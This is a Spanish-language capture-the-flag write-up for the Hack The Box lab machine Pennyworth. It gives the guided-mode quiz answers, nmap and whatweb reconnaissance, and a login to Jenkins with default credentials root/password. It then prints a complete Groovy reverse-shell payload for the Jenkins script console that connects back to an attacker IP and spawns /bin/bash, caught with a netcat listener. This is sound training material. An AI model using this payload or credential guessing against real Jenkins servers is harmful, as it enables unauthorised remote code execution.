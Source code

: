 ```yaml
---
title: Writeup pennyworth - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - pennyworth
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina pennyworth en Hack The Box.
keywords:
  - writeup pennyworth
  - hack the box pennyworth
  - resolución máquina pennyworth
  - pennyworth hack the box
  - htb pennyworth
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+1/Linux/Pennyworth)
- 📺 **Resolución en vivo (completa)**: [Link]([Link](https://www.youtube.com/watch?v=vC5kp8ODqls))
- 🧠 **Explicación resumida**: 

--------

#easy #linux #nmap #ping #groovy #reverseshell

----
# Guided Mode

1)¿Qué significan las siglas CVE?
	Common Vulnerabilities and Exposures

2)¿Qué significan las tres letras de CIA, en referencia a la tríada de la CIA en ciberseguridad?
	Confidentiality, Integrity, Availability

3)¿Cuál es la versión del servicio que se ejecuta en el puerto 8080?
	Jetty 9.4.39.v20210325

4)¿Qué versión de Jenkins se está ejecutando en el objetivo?
	Jenkins[2.289.1]

5)¿Qué tipo de script se acepta como entrada en la Consola de Script de Jenkins?
	groovy

6)¿A qué equivaldría la variable «String cmd» del fragmento de Groovy Script si la máquina virtual de destino estuviera ejecutando Windows?
	cmd.exe

7)¿Cuál es un comando diferente a «ip a» que podríamos usar para mostrar la información de nuestras interfaces de red en Linux?
	ifconfig

8)¿Qué switch debemos utilizar con netcat para que utilice el modo de transporte UDP?
	-u

9)¿Cuál es el término utilizado para describir cómo hacer que un host de destino inicie una conexión de vuelta al host atacante?
	reverse shell

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.255.235
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.255.235 -oG allports
nmap -sCV -p8080 10.129.255.235 -oN target
```

![[Pennyworth1.png]]

![[Pennyworth2.png]]
*TTL:* Maquina Linux
*Puertos:*
	`8080` HTTP

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.255.235:8080
```

![[Pennyworth3.png]]
La unica informacion relevante es lo de jetty 9.4.39 que vimos tambien en nmap

----
# Intrusion al panel de logeo

Entramos a la pagina y vemos este panel de logeo
![[Pennyworth4.png]]
Despues de intentar los usuarios y contraseñas mas comunes, logramos dar con 
```
Usuario: root
Contraseña: password
```

Ya estamos adentro
![[Pennyworth5.png]]

---------
# [[Reverse shell]]
Ahora vamos a ir a la parte de consola y vamos a poner el payload que sacamos de este [articulo](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
![[Pennyworth7.png]]
#### Payload
```groovy
String host="10.10.16.16";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Mientras estamos en escucha con [[nc -nlvp 443]], y no se le dan importancia a los errores de la consola de groovy por que igualemnte no tira la revershell, una vez dentro ya podemos catear la flag

![[Pennyworth6.png]]

--------
# Notas

Confidentiality, Integrity, Availability
	La tríada CIA en ciberseguridad representa **Confidencialidad, Integridad y Disponibilidad**. Son los tres pilares fundamentales para proteger la información: evitar accesos no autorizados, mantener los datos correctos y asegurarse de que estén siempre accesibles.


--------
# Creditos
Writeup Oficial HackTheBox


